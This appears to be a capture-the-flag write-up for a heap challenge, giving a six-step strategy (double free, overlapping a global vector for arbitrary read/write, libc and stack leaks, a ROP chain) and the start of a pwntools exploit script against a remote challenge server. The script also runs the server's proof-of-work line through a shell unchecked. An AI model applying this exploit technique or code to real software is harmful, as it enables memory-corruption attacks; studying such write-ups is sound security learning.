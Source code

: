 The first allocation of the vector is defined in the `new()` part of `Global`, it uses `with_capacity(10)` to allocate space for 10 possible elements. When it get doubled, the sizes can be 20 * 24, 40 * 24, 80 * 24 and so on.

## Exploit strategy
Final strategy to exploit:
1. use double free bug to get 2 freed regions for later use
2. push vector of different size to global vector, to make it double, then allocate the space where we freed before
3. allocate a large vector of the same size as before, now this will be allocated at the same position of the global vector
4. when we operates on the large vector in step 3, we are actually modifying global vector. Now we get read or write anywhere.
5. use that to leak heap address, and leak some libc address on heap, then leak `environ` variable in libc to get stack address, finally write to stack to form a ROP chain. 
6. exit! ROP chain will then be triggered

## Final exploit
```Python
from pwn import *
import os
context(os='linux', arch='amd64', log_level='debug')

DEBUG = False

libc = ELF('./libc.so.6')

if DEBUG:
    p = process('./main', env={'LD_PRELOAD': os.getcwd() + '/libc.so.6'})
else:
    p = remote('47.98.57.30', 4279)
    p.recvuntil('PoW:')
    line = p.recvline()
    output = subprocess.check_output(line, shell=True)
    p.sendline(output)
# libc at heap: 15220

def read_to_vec(idx, idy, idz):
    p.recvuntil('$')
    p.sendline('9')
    p.recvuntil('Index =>')
    p.sendline(str(idx))
    p.recvuntil('Index =>')
    p.sendline(str(idy))
    p.recvuntil('Index =>')
    p.sendline(str(idz))
    
def set_to_global(idx, num):
    p.sendline('7')
    p.recvuntil('Index =>')
    p.sendline(str(idx))
    p.recvuntil('Value =>')
    p.sendline(str(num & 0xffffffff))

def dump_result(idx):
    p.sendline('6')
    p.recvuntil('number')
    p.sendline(str(idx))
    p.recvuntil('Result:')
    result = int(p.recvline().strip('\n'))
    return result

```